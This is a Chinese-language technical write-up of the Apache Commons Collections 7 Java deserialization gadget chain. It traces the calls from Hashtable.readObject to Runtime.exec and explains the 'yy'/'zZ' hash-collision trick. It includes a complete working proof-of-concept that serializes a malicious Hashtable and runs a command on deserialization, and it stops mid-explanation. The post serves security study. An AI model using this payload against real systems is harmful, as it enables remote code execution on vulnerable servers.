








# CommonsCollections7利用链分析

## 前言

终于迎来最后一条链子`CommonsCollections7`，利用条件如下：
```
CommonsCollections 3.1 - 3.2.1
JDK版本未知限制
```

先看`ysoserial`给出的利用链
```
Payload method chain:

    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
```

可以看到从`LazyMap#get()`起后面的都是`CommonsCollections1`的内容，前面则是新知识点，也是一条寻找了其他能触发`LazyMap#get()`方法的链子
## 利用链分析

根据 gadget 先跟进`Hashtable#readObject()`方法源码


其中`s`是我们传入的输入流，分别通过`readObject()`进行反序列化赋值给`key`以及`value`，接着调用`reconstitutionPut()`方法，继续跟进


在`reconstitutionPut()`方法中，调用了`key.equals()`方法，这里我们知道`key`是可控的，根据调用链看，最终是调用了`AbstractMap#equals()`，我们继续跟进`AbstractMap`类的`equals()`方法


可以看见最终调用了`m.get()`方法，也就是如果`m`可控，则可以完成调用`LazyMap#get()`方法触发命令执行。在这里，`m`由传进来的参数`o`控制，也就是最初的`key`。

我们回到原来的`Hashtable`类，既然在`readObject()`方法对输入流进行反序列化，那么我们就去看序列化的方法`writeObject()`


这里的`entryStack.key`和`entryStack.value`则是我们通过`put()`传入的`key`和`value`。因此我们如果`put()`方法中的`key`为`LazyMap`对象的话，最终`m`则是`LazyMap`对象。

这里还剩下一个问题，就是怎么调用到`AbstractMap#equals()`方法呢？

首先我们必须构造`key`为`LazyMap`对象，最后才能调用到`LazyMap#get()`。因此我们再回来看看`LazyMap`类


搜索一遍并没有发现`LazyMap`类有`equals()`方法，但最后注意到`LazyMap`类继承于`AbstractMapDecorator`类，跟进


`AbstractMapDecorator`类含有`equals()`方法。根据前面的学习，我们会构造以下 payload

```java
Map innerMap1 = new HashMap<>();
Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
```

所以此时的`this.map`为`HashMap`类对象，因此接下来会进入`HashMap#equals()`


而`HashMap`又继承于`AbstractMap`类，因此最终会调用到`AbstractMap#equals()`方法，整条利用链就通了，妙哉。

最终 POC 为
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {
    public static void main(String[] args) throws Exception {
        CommonsCollections7 commonsCollections7 = new CommonsCollections7();
        commonsCollections7.serialize();
        commonsCollections7.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap<>();
        Map innerMap2 = new HashMap<>();
        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
        lazyMap1.put("yy",1);
        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);
        lazyMap2.put("zZ",1);

        Hashtable hashtable = new Hashtable<>();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        lazyMap2.remove("yy");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(hashtable);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

POC 中有几个问题需要解答。

- 为什么`Hashtable`需要 put 两次？

在`Hashtable#reconstitutionPut()`方法中，第一次进入时`tab`内容为空，无法进入 for 循环，进而没法调用到`key.equals()`方法


为了调用两次`reconstitutionPut()`方法，我们需要通过`put()`两次内容，使得` elements`的值为2，进而在 for 循环里运行两次`reconstitutionPut()`方法


- 为什么`lazyMap()`需要`yy`和`zZ`两个字符串？

还是`reconstitutionPut()`方法，`e.hash == hash`会判断上一个`key`的`hash`是否与当前`key`的`hash`相等，只有相等才能进入下一步。


而字符串`yy`和`zZ`经过`hashCode()`方法计算是相等的


那么为什么这两个字符串会相等呢？因为是字符串，所以我们跟进`String#hashCode()`方法


算法就这一句
```
h = 31 * h + val[i];
```

首先第一个`y`的`ascii`值为 121，而第一个`z`的`ascii`值为 122，经过计算：
```
a:  y->121 y-> 121*31 + 121 = 3872
b:  z->122 ？-> 122*31 + ？  = 3872  -> ? = 90
```

所以要想`a`和`b`经过`hashCode()`方法计算相等，`b`的第二个元素就得比`a`小，结果为`Z`，`Z`的`ascii`值为 90

- 为什么最后要`remove("yy")`？

晚点写，吃饭先

